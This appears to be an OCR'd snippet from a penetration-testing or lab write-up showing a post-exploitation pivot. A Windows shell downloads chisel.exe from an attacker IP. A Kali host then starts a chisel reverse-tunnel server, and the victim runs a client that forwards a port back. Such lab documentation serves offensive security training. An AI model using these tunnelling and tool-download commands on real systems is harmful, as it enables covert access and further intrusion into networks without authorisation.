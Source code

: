 ```bash
windows


PS C:\windows\temp> wget http://10.10.14.15:8888/chisel.exe -o chisel.exe
PS C:\windows\temp> dir




```

```bash
linux
┌──(pwn㉿kali)-[~/linux-post-exp]
└─$ ./chisel_1.10.1_linux_amd64 server -p 8989 --reverse
2025/02/09 03:36:21 server: Reverse tunnelling enabled
2025/02/09 03:36:21 server: Fingerprint dBdqDM/gWml1i3cxgFeFIxLMIBVcK3r1t0YVI86feB8=
2025/02/09 03:36:21 server: Listening on http://0.0.0.0:8989

```

```bash
\chisel.exe client 10.10.14.15:8989 R:9999:localhost:9999
```

